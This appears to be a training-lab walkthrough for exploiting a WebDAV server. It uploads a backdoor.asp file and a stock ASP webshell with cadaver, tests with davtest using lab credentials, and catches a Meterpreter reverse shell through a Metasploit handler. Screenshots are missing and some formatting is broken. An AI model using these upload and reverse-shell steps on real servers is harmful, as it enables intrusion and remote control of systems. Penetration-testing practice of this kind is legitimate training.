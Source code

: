 put backdoor.asp

We can upload our malicious file using the above command.

![2148e0bc442704d7ba0ff5f4e63151a3.png](../../../_resources/2148e0bc442704d7ba0ff5f4e63151a3.png)

After the above process, you can clearly see that the backdoor.asp file has been successfully uploaded to the “WebDAV” directory.

![bc07d4eef9682c1ba1c534a14d460488.png](../../../_resources/bc07d4eef9682c1ba1c534a14d460488.png)

Now what we have to do is start a listener from our attack machine. For this purpose I’m going to use Metasploit.

Use the above commands, respectively.

use multi/handler

set LHOST eth1

set payload windows/meterpreter/reverse_tcp

![2b6cd5a66cce70ff33c151a1d0e59375.png](../../../_resources/2b6cd5a66cce70ff33c151a1d0e59375.png)

![b8d7421e5188f91883c6990098720ffb.png](../../../_resources/b8d7421e5188f91883c6990098720ffb.png)

So, as you can see, our listener is running on port 4444 from the attack machine’s network interface (localhost).

Now all we have to do is run our backdoor.asp file from the “WebDAV” directory and then you will get the meterpreter session.

![17701a2dc491467e801ff5468b9540d4.png](../../../_resources/17701a2dc491467e801ff5468b9540d4.png)

![11fd07d9d17a7facd1d63fdabd97c5d5.png](../../../_resources/11fd07d9d17a7facd1d63fdabd97c5d5.png)

Second Way:

Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)  
    - `davtest -url http://{target1}/webdav/ -auth {username}:{password}`

davtest -url http://10.3.27.91/webdav/ -auth bob:password_123321

![6807da871af7a1ca80b9877f5a12ea77.png](../../../_resources/6807da871af7a1ca80b9877f5a12ea77.png)

- Reveals that \`.asp\` files can be executed.  
        - \`cadaver http://{target1}\`  
            - Input username & password.  
        - \`cd /webdav/\`  
        - `put /usr/share/webshells/asp/webshell.asp`
    
- ![ca670c5e805fed3187b367c8bc11f087.png](../../../_resources/ca670c5e805fed3187b367c8bc11f087.png)
    
- \- Navigate to \`http://{target1}/webdav\` and select \`webshell.asp\`.
    
- ![ce1f57e7e0426768468836694e901cba.png](../../../_resources/ce1f57e7e0426768468836694e901cba.png)
    
- ![7a654683e4e2f1b57890b038239438e1.png](../../../_resources/7a654683e4e2f1b57890b038239438e1.png)
    